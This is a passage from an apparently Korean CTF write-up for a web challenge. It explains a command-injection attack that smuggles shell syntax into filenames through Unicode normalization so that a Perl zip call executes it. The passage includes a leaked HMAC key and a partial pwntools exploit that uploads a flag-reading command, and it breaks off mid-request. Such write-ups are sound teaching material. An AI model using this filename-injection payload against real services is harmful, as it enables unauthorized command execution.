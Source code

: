 먼저 a에 실행시키고 싶은 쉘 명령어를 입력한 다음, sh에 리다이렉션 기호를 통해 a를 입력으로 주고, 그 다음 나온 아웃풋을 b로 주게 되면 명령어 실행이 가능합니다.

따라서 Exploit 시나리오는 다음과 같습니다.

1. 실행할 명령어를 담은 파일을 만들고 `\u0338a` 이라는 이름으로 업로드
2. `\u1FEFsh\u226Ea\u226Fb\u1FEF` 라는 dummy 파일 업로드
3. ``sh<\u0338a>\u0338b`` 압축

![/assets/2020-10-01/2010js15.png](/assets/2020-10-01/2010js15.png)

파일명을 `\u1FEFsh\u226Ea\u226Fb\u1FEF` 로 업로드하게 되면, unicode normalization로 인해 ``sh<\u0338a>\u0338b`` 도 동등하게 접근할 수 있게 되어, 압축할 때 ``sh<\u0338a>\u0338b`` 파일을 인자로 주게되면 최종적으로 다음과 같은 perl 스크립트가 완성됩니다.

```perl
zip "`sh<\u0338a>\u0338b`.zip" "`sh<\u0338a>\u0338b`"
```

하지만 압축된 파일명을 조작하기 위해서는 hmac key가 필요한데, 다행히 1번 취약점을 통해 손쉽게 hmac key를 추출해낼 수 있었습니다.

>> hmac : `5af42f71a1b864b7d2093336013508f8`

그 이후, 1번 취약점으로 얻은 hmac을 통해 원하는 파일 명을 file-decompressor의 $ARGV[0] 에 줄 수 있었고, 따라서 command injection 취약점을 발현시킬 수 있었습니다.

다음은 Exploit 코드입니다.

```python
from pwn import *

def upload(filename):
    p = remote('dream.chal.ctf.westerns.tokyo', 80)
    payload = u'''POST /upload.aspx HTTP/1.1
Host: dream.chal.ctf.westerns.tokyo
Connection: keep-alive
Content-Length: 1700
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://dream.chal.ctf.westerns.tokyo
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryZiSaf9FJ6PtAeIM5
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://dream.chal.ctf.westerns.tokyo/upload.aspx
Accept-Encoding: gzip, deflate
Accept-Language: ko,en-US;q=0.9,en;q=0.8,ko-KR;q=0.7
Cookie: ASP.NET_SessionId=AEDE0033A82E6358B8C052CA

------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="__VIEWSTATE"

/wEMAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAALMwDjJWVIJvIW8qNp8fjXqX3h5GVcJ5o5Yra9F5KfHb
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="file1"; filename="test"
Content-Type: application/octet-stream

/get_flag2
------WebKitFormBoundaryZiSaf9FJ6PtAeIM5
Content-Disposition: form-data; name="filename1"
```